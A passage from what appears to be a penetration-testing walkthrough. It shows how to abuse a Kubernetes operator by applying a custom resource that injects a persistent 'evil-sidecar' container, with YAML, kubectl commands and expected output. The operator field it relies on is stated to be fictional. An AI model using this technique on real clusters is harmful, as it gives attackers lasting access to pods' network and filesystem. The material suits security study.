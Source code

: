**Step 8 (Alternative): Craft a Malicious Custom Resource to inject a sidecar container**

Create a YAML file (e.g., `evil2.yaml`) containing the following:

```yaml
apiVersion: example.com/v1alpha1
kind: MyResource
metadata:
  name: evil-resource-sidecar
spec:
  podSpecPatch: |
    spec:
      containers:
      - name: evil-sidecar
        image: busybox
        command: ["/bin/sh", "-c", "while true; do sleep 3600; done"] # keep container alive
```

**Explanation:** This YAML defines a custom resource which attempts to modify the pod spec by injecting a sidecar container based on `busybox`. The command inside the container simply sleeps forever. The `podSpecPatch` is a fictional field in `MyResource` that allows modifying the Pod specification.
**Expected Output:** None yet - this is just a configuration file.
**Why:** To inject a malicious sidecar that provides persistent access to the pod's network and filesystem.

**Step 9 (Alternative): Create the Malicious Custom Resource**

```bash
kubectl apply -f evil2.yaml
```

**Explanation:**  This command applies the YAML file, creating the `evil-resource-sidecar` Custom Resource in the cluster. This triggers the Operator to reconcile the resource.
**Expected Output:** `myresource.example.com/evil-resource-sidecar created`
**Why:** This prompts the Operator to inject the specified container.

**Step 10 (Alternative): Check if the Sidecar Container was injected**

```bash
kubectl get pods -l myoperator.example.com/controlled-by=myresource/evil-resource-sidecar # replace label appropriately
kubectl describe pod <pod_name>
```

**Explanation:** The first command tries to find the pod affected by `MyResource` by using a label that's applied automatically to the resources managed by operator. It is important to figure out label being set. Then the second command shows the pod, you should see the `evil-sidecar` container.
**Expected Output:**  You should see the Pod controlled by the `MyResource` you created.  In the `describe pod` output, you will see the `evil-sidecar` container definition.
**Why:** Validates if the container was added.

### Phase 3: Persistence

The exploit described above already provides persistence, as the Operator will continuously recreate any resources defined in the malicious CR.  Deleting the resulting pods will trigger the Operator to recreate them based on the CRD definition.

